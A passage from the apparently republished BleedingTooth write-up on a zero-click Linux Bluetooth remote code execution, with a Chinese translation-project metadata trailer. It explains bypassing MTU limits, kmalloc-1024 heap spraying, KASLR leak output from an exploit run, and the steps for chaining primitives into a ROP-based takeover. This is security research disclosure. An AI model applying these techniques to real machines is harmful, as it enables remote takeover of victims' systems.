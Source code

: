 Note that allocating objects in the kmalloc-1024 slab is a bit more complicated than the kmalloc-128 slab, because:

* The ACL MTU is usually smaller than 1024 bytes (can be checked with hciconfig).
* The default MTU for the A2MP channel is L2CAP_A2MP_DEFAULT_MTU=670 bytes.

Both MTU limitations are easy to bypass. Namely, we can bypass the ACL MTU by fragmenting the request into multiple L2CAP packets, and we can bypass the A2MP MTU by sending a L2CAP_CONF_MTU response and configuring it to 0xffff bytes. Here again, it is unclear why the Bluetooth specification does not explicitly disallow parsing configuration responses if no request has been sent.

Let’s try out the technique:

```shell
$ gcc -o exploit exploit.c -lbluetooth && sudo ./exploit XX:XX:XX:XX:XX:XX
[*] Opening hci device...
[*] Connecting to victim...
[+] HCI handle: 100
[*] Connecting A2MP channel...
[*] Leaking A2MP kernel stack memory...
[+] Kernel address: ffffffffad2001a4
[+] KASLR offset: 2b600000
[*] Preparing to leak l2cap_chan address...
[*] Leaking A2MP kernel stack memory...
[+] l2cap_chan address: ffff98ee5c62fc00
[*] Spraying kmalloc-1024...
```
Notice how the most significant bytes of both leaked pointers differ. By observing the higher bytes, we can make an educated guess (or check the Linux documentation) to determine whether they belong to a segment, heap, or stack. To confirm that we were indeed able to reclaim the address of struct l2cap_chan, we can inspect the memory on the victim’s machine using:
```shell
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff98ee5c62fc00
0xffff98ee5c62fc00:	0x4141414141414141	0x4242424242424242
0xffff98ee5c62fc10:	0x4343434343434343	0x4444444444444444
0xffff98ee5c62fc20:	0x4545454545454545	0x4646464646464646
0xffff98ee5c62fc30:	0x4747474747474747	0x4848484848484848
...
0xffff98ee5c62fd00:	0x6161616161616161	0x6262626262626262
0xffff98ee5c62fd10:	0x6363636363636363	0x6464646464646464
0xffff98ee5c62fd20:	0x6565656565656565	0x6666666666666666
0xffff98ee5c62fd30:	0x6767676767676767	0x6868686868686868
```
The memory content looks very promising! Note that it is useful to spray with a pattern, since that allows us to recognize memory blocks immediately and understand which offsets get dereferenced when a panic is hit.

#### Plugging It All Together
We now have all primitives we need to complete our RCE:

* We can control a memory block whose address we know (referred to as the “payload”).
* We can leak a .text segment pointer and build a ROP chain which we can store in the payload.
* We can take full control over the sk_filter field and point it to our payload.


[#]: collector: (选题人 Licae)
[#]: translator: ( )
[#]: reviewer: ( )
[#]: publisher: ( )
[#]: subject: (BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution)
[#]: via: (https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html#bypassing-badkarma)
[#]: author: (Andy Nguyen https://google.github.io/security-research)
[#]: url: ( )
[a]: 作者链接 https://google.github.io/security-research
[b]: 选题链接 URL
[1]: 图片链接地址
[2]: 文内链接地址